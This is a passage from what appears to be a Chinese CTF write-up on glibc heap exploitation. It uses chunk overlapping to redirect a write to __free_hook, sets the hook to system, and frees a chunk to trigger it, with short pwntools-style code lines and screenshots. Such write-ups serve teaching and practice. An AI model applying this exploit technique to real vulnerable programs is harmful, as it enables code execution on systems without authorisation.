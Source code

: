 ```bash
add(0x70,p64(0)*8+p64(0x10)+p64(free_hook))
```

利用 chunk Overlapping 然后将修改地址的索引改成 free\_hook，这样就可以直接改 hook 了

[![](assets/1701606615-3536d63324cdf3e36e3f7f8548bd046a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213355-9fb89d62-83bb-1.png)

```bash
edit(4,p64(system))
delete(0)
```

直接将 free\_hook 改成 system，然后 free(0) 就可以

[![](assets/1701606615-f2dc06e9d2ebb213f5c2b2307795b06f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213419-adb566de-83bb-1.png)
